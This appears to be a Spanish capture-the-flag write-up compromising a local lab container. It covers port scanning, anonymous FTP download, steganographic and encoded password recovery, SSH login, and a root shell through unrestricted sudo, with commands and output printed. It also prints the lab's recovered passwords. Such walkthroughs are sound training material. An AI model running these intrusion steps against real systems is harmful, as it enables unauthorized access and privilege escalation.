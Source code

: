 ```python
Máquina desplegada, su dirección IP es --> 172.17.0.2
```

`sudo nmap -p- -sS -Pn -n 172.17.0.2 -oG puertos`

```python
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

`sudo nmap -p21,22,80 -sSCV 172.17.0.2 -oN objetivos`

```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrw-rw-    1 ftp      ftp         75372 Apr 27  2024 hello_peter.jpg [NSE: writeable]
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 61:8f:91:89:a7:0b:8e:17:b7:dd:38:e0:00:04:59:47 (ECDSA)
|_  256 8a:15:29:13:ec:aa:f6:20:ca:c8:80:14:56:05:ec:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

cosas de interés:
```python
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrw-rw-    1 ftp      ftp         75372 Apr 27  2024 hello_peter.jpg [NSE: writeable]
```

Acceso a FTP
``` python
$ftp 172.17.0.2 -a
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get hello_peter.jpg
local: hello_peter.jpg remote: hello_peter.jpg
229 Entering Extended Passive Mode (|||22931|)
150 Opening BINARY mode data connection for hello_peter.jpg (75372 bytes).
100% |**************************************| 75372       28.18 MiB/s    00:00 ETA
226 Transfer complete.
75372 bytes received in 00:00 (26.15 MiB/s)
ftp> bye
221 Goodbye.

```

Código de la pagina web:
``` python
<!-- 
¡Hola, Peter!

¿Te acuerdas los libros que te presté de esteganografía? ¿A que estaban buenísimos?

Aquí te dejo una clave que usaras sabiamente en el momento justo. Por favor, no seas tan obvio, la vida no se trata de fuerza bruta.

@UX=h?T9oMA7]7hA7]:YE+*g/GAhM4

Solo te comento, recuerdo que usé este método porque casi nadie lo usa... o si. Lamentablemente, a mi también se me olvido. Solo recuerdo que era base
-->
```

[Identificador de Cifrado](https://www.dcode.fr/identificador-cifrado)
![](Pasted%20image%2020250319115319.png)



[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base85('!-u',true,'z')&input=QFVYPWg/VDlvTUE3XTdoQTddOllFKypnL0dBaE00)
![](Pasted%20image%2020250319115734.png)

`steghide --extract -sf hello_peter.jpg -p base_85_decoded_password `
```python
anot� los datos extra�dos e/"you_find_me.txt"
```

![](Pasted%20image%2020250319120245.png)

[decode Ook!](https://www.dcode.fr/ook-language) Da el siguiente código:
`9h889h23hhss2`

``` python
$ssh -L 8000:localhost:8000 peter@172.17.0.2
peter@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.12.12-amd64 x86_64)
[...]

Last login: Wed Mar 19 19:14:09 2025 from 172.17.0.1
peter@f423900c3ddd:~$ 

```
Ya en el sistema
```python
peter@f423900c3ddd:~$ cat nota_importante.txt 
NO REINICIES EL SISTEMA!!

HAY UN ARCHIVO IMPORTANTE EN TMP

peter@f423900c3ddd:/home$ cd /tmp
peter@f423900c3ddd:/tmp$ ls
importante_octopus.odt	recuerdos_del_sysadmin.txt
peter@f423900c3ddd:/tmp$ cat recuerdos_del_sysadmin.txt 
Cuando era niño recuerdo que, a los videos, para pasarlos de flv a mp4, solo cambiaba la extensión. Que iluso.

```

![](Pasted%20image%2020250319122804.png)

![](Pasted%20image%2020250319123054.png)

`$unzip importante_octopus.zip `
``` python
Archive:  importante_octopus.zip
   creating: Configurations2/accelerator/
   creating: Configurations2/floater/
   creating: Configurations2/images/Bitmaps/
   creating: Configurations2/menubar/
   creating: Configurations2/popupmenu/
   creating: Configurations2/progressbar/
   creating: Configurations2/statusbar/
   creating: Configurations2/toolbar/
   creating: Configurations2/toolpanel/
  inflating: META-INF/manifest.xml   
 extracting: Thumbnails/thumbnail.png  
  inflating: content.xml             
  inflating: leerme.xml              
  inflating: manifest.rdf            
  inflating: meta.xml                
 extracting: mimetype                
  inflating: settings.xml            
  inflating: styles.xml   
```

`cat leerme.xml `
```python
Decirle a Peter que me pase el odt de mis anécdotas, en caso de que se me olviden mis credenciales de administrador... Él no sabe de Esteganografía, nunca sé lo imaginaria esto.

usuario: octopus
password: ODBoMjM4MGgzNHVvdW8zaDQ=

```

```bash
echo -n 'ODBoMjM4MGgzNHVvdW8zaDQ=' | base64 -d
80h2380h34uouo3h4
```

```python
octopus@f423900c3ddd:/tmp$ sudo -l
...
User octopus may run the following commands on f423900c3ddd:
    (ALL) NOPASSWD: ALL
    (ALL : ALL) ALL
octopus@f423900c3ddd:/tmp$ sudo su
[sudo] password for octopus: 
root@f423900c3ddd:/tmp# 

```
